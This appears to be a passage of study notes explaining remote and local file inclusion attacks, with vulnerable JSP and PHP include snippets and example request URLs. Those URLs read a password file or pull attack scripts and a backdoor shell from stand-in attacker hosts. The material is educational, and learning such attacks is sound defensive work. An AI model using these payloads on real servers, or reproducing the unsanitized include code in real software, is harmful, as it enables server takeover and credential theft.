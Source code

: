```ad-example
- A JSP page contains this line of code: 

`<jsp:include page=”<%=(String)request.getParmeter(“ParamName”)%>”>` 

can be manipulated with the following request: 

`Page1.jsp?ParamName=/WEB-INF/DB/password`


Processing the request reveals the content of the password file to the perpetrator.

- A web application has an import statement that requests content from a URL address, as shown here: 

`<c:import url=”<=request.getParameter(“conf”)%>”>`

If unsanitized, the same statment can be used for malware injection.

For example: 

`Page2.jsp?conf=https://evilsite.com/attack.js`

- RFI attacks are often launched by manipulating the request parameters to refer to a remote malicious file.

For example, consider the following code:

`$incfile = $_REQUEST["file"]; include($incfile.".php");`

Here, the first line extracts the file parameter value from the HTTP request, while the second line uses that value to dynamically set the file name. In the absence of appropriate sanitization of the file parameter value, this code can be exploited for unauthorized file uploads.

For example, this URL string `http://www.example.com/vuln_page.php?file=http://www.hacker.com/backdoor_` contains an external reference to a backdoor file stored in a remote location `(http://www.hacker.com/backdoor_shell.php.)`

Having been uploaded to the application, this backdoor can later be used to hijack the underlying server or gain access to the application database.

![R57 backdoor shell](https://www.imperva.com/learn/wp-content/uploads/sites/13/2019/01/r57-backdoor-shell.jpg.webp)

The R57 backdoor shell is a popular choice for RFI attacks.
```

# RFI steps

The following figure is an example of steps for a successful RFI attack! Let's say that the attacker hosts a PHP file on their own server `http://attacker.thm/cmd.txt` where `cmd.txt` contains a printing message  Hello THM.
